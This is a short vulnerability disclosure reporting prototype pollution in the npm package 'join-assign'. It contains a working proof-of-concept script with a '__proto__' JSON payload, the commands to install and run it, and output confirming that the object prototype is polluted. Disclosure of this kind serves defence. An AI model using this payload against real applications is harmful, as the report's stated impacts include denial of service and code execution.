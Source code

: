 # Description

`join-assign` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { assign } = require('join-assign')

console.log('Before: ', {}.polluted)
assign({}, JSON.parse('{"__proto__": {"polluted": true}}'))
console.log('After: ', {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i join-assign # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

